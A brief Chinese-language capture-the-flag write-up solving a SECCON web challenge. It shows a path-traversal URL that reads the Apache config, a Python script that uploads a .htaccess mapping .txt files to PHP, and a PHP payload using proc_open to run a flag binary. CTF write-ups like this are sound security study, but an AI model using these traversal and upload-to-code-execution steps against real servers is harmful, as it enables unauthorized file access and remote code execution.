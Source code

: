 
[參考](https://ctftime.org/task/5057)

這題是代碼審計

看一下 apache2.conf ，網址打
```
http://automatic_door.pwn.seccon.jp/0b503d0caf712352fc200bc5332c4f95/?action=read&filename=../../../../../../../../etc/apache2/apache2.conf
```

可以看到
```
<Directory /var/www/>
    Options Indexes FollowSymLinks
    AllowOverride All
    Require all granted
</Directory>
```

AllowOverride All 則會讀取當前目錄下的 .htaccess 然後覆蓋預設值

所以上傳 .htaccess ，內容是 AddType application/x-httpd-php .txt

這裡用 python
```
def upload_file(filename):
    with codecs.open(filename, "r") as f:
        res = requests.post(
            "http://automatic_door.pwn.seccon.jp/0b503d0caf712352fc200bc5332c4f95/?action=write&filename=" + filename,
            files={"file": f})
        print(res.text)

upload_file('.htaccess')
```

再上傳一個的檔案: gg.txt ，內容是
```
test
<?php
$cwd='';
$descriptorspec = array(
    0 => array("pipe", "r"),
    1 => array("pipe", "w"),
    2 => array("file", "/tmp/error-output.txt", "a") );

$process = proc_open("/flag_x", $descriptorspec, $pipes, $cwd);

echo stream_get_contents($pipes[1]);
fclose($pipes[1]);


?>
test
```
